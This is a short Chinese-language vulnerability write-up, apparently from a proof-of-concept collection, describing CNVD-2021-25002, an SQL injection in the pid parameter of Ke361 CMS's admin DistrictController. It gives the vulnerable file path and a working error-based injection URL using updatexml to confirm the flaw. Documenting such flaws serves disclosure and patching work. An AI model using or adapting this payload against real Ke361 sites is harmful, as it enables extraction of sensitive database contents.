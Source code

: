 # Ke361 DistrictController.class.php 后台SQL注入漏洞 CNVD-2021-25002

## 漏洞描述

Ke361 DistrictController.class.php index() 函数 pid参数存在 SQL注入漏洞，通过漏洞可以获取数据库敏感信息

## 漏洞影响

<a-checkbox checked>Ke361</a-checkbox></br>

## 环境搭建

<a-checkbox checked>https://gitee.com/jcove/ke361</a-checkbox></br>

## 漏洞复现

CMS产品页面

![img](../../../.vuepress/public/img/1634130579841-e981591e-46f6-4aa8-bc68-6fe39d1e4e35-20220313232910449.png)

存在漏洞的文件为 `Application/Admin/Controller/DistrictController.class.php`

![img](../../../.vuepress/public/img/1634142045802-bdf21a65-a663-4f35-afc2-bc3e70d44309.png)

验证POC

```php
admin.php?s=/District/index/pid/1)%20AND%20updatexml(1,concat(0x7e,(select%20md5(1)),0x7e),1)--+
```

![img](../../../.vuepress/public/img/1634142062147-5e1703bb-91c6-44cd-8867-c3409540c2d8.png)



若有收获，就点个赞吧
